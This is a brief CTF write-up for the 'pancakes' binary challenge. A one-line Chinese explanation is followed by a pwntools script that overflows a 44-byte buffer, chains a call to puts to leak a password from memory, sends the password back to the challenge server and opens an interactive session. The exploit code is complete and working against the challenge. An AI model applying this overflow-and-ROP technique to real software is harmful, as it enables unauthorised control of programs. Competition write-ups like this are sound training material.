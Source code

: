 ### pancakes

> [附件](./pancakes)

44字节溢出覆盖返回地址调用puts函数输出passwd

[Exploit script:](./pc.py)

```python
from pwn import *
context.log_level='debug'

p = process('./pancakes')
p = remote('chal.tuctf.com',30503)
elf = ELF('./pancakes')
#gdb.attach(p)
p.recvuntil('> ')
p.sendline('A'*44+p32(elf.symbols['puts'])+p32(0x0804901e)+p32(0x804c060)+p32(elf.symbols['main']))
p.recvuntil('Try harder\n')
passwd = p.recvuntil('\n',drop=True)
log.success("pw:%s"%passwd)
p.recvuntil('> ')
p.send(passwd)

p.interactive()
```


